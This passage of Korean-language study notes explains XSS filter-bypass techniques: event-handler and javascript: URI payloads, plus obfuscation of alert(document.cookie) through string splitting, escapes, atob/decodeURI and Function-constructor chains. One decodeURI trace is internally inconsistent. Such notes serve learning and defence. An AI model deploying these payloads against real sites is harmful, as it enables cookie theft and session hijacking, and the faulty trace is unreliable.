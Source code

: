 
- 특정 태그 및 속성에 대한 필터링을 다른 태그 및 속성을 이용하여 필터 우회
    
    ```html
    <video><source onerror=alert(document.cookie) /></video>
    <body onload=alert(document.cookie) />
    <iframe src=jaVaSCRipt:alert(parent.document.cookie) />
    <iframe srcdoc="<img src='' one&#114;&#114;or=alert(parent.document.cookie)>" />
    ```
    

## JavaScript 함수 및 키워드 필터링

> JavaScript는 Unicode escape sequence, Computed member access 등 코드를 난독화할 수 있는 다양한 기능들을 포함하여 필터를 우회할 수 있다.<br>`atob` 와 `decodeURI` 함수는 각각 Base64 및 URI로 인코딩된 데이터를 디코딩하는 함수로써 키워드 등을 부호화하여 필터를 우회할 수 있다.
{: .prompt-tip }

**Unicode escape sequence**
: 문자열에서 유니코드 문자를 코드포인트로 나타낼 수 있는 표기(ex. `”\uAC00”` = “가”)

**computed member access**
: 객체의 특정 속성을 접근할 때 속성 이름을 동적으로 계산함.

- Unicode escape sequence
    
    ```jsx
    x => typeof x === 'string' && !x.includes('alert') && !x.includes('window') && !x.includes('document')
    
    --> this['al'+'ert']((({'\u0063ookie':x})=>x)(self['\x64ocument']))
        --> this.alert((({cookie: x}) => x)(self.document)
        --> window.alert(self.document.cookie)
        --> alert(document.cookie)
    ```
<br>
- computed member access
    
    ```jsx
    x => typeof x === 'string' && !x.includes('eval') && !x.includes('cookie')
    --> isNaN['construct'+'or'](atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))()
        --> isNaN['constr'+'uctor']("alert(document.cookie)")()
        --> Function("alert(document.cookie)")()
        --> alert(document.cookie)
    --> self['constru'+'ctor']['con'+'structor'](decodeURI("%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65"))
        --> self['constru'+'ctor']['con'+'structor']("alert(document.cookie)")()
        --> self.constructor.constructor("alert(document.cookie)")()
        --> Window.constructor("alert(document.cookie)")()
        --> Function("alert(document.cookie)")()
        --> alert(document.cookie)
    ```
<br>

| 구문 | 대체구문 |
| :--- | :--- |
| alert, XMLHttpRequest 등 최상위 객체 및 함수 | window['al'+'ert'], window['XMLHtt'+'pRequest'] 등 이름 끊어서 쓰기 |
| window | `self`, `this`<br>(”use strict” 가 비활성화되어 있고 this가 명시된 메소드 호출이 아니라는 가정 하) |
| eval(code) | Function(code)() |
| Function | isNaN['constr'+'uctor'] 등 함수의 constructor 속성 접근 |
